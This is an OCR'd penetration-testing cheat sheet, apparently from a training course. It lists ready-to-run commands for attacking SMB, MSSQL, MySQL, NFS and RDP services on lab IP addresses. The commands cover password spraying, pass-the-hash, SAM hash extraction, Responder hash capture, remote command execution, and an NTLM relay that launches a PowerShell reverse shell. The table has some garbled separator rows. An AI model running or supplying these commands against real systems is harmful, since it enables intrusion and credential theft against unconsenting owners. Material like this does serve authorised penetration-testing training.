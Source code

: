 | ``smbmap -H 10.129.14.128 --upload test.txt "notes\test.txt"`` | Upload a specific file to the shared folder. |

| ``rpcclient -U'%' 10.10.110.17`` | Null-session with the `rpcclient`. |

| ``./enum4linux-ng.py 10.10.11.45 -A -C`` | Automated enumeratition of the SMB service using `enum4linux-ng`. |

| ``crackmapexec smb 10.10.110.17 -u /tmp/userlist.txt -p 'Company01!'`` | Password spraying against different users from a list. |

| ``impacket-psexec administrator:'Password123!'@10.10.110.17`` | Connect to the SMB service using the `impacket-psexec`. |

| ``crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec`` | Execute a command over the SMB service using `crackmapexec`. |

| ``crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users`` | Enumerating Logged-on users. |

| ``crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam`` | Extract hashes from the SAM database. |

| ``crackmapexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE`` | Use the Pass-The-Hash technique to authenticate on the target host. |

| ``impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.110.146`` | Dump the SAM database using `impacket-ntlmrelayx`. |

| ``impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.220.146 -c 'powershell -e <base64 reverse shell>`` | Execute a PowerShell based reverse shell using `impacket-ntlmrelayx`. |

| ``sudo responder -I ens33`` | We can also abuse the SMB protocol by creating a fake SMB Server to capture users' NetNTLM v1/v2 hashes. |

| `-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------` | -------------------------------------------------------- |

| ``mssqlclient.py <user>@<FQDN/IP> -windows-auth`` | Log in to the MSSQL server using Windows authentication. |

| ``locate mssqlclient.py`` | Locate mssqlclient.py |

| ``sudo nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 10.129.201.248`` | NMAP MSSQL Script Scan |

| ``sudo nmap 10.129.14.128 -sV -sC -p3306 --script mysql*`` | Scanning MySQL Server |

| ``mysql -u root -pP4SSw0rd -h 10.129.14.128`` | Interaction with the MySQL Server |

| `-------------------------------------------------------------------------------------------------------` | ------------------------------------------------ |

| `` |  |

| ``mkdir target-NFS` `sudo mount -t nfs 10.129.14.128:/ ./target-NFS/ -o nolock` `cd target-NFS` `tree .`` | Mounting NFS share |

| `--------------------------------------------------------------------------------------------------------------------------------------------------------------` | ------------------------------------------------------------------------------- |

| ``crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'`` | Password spraying against the RDP service. |
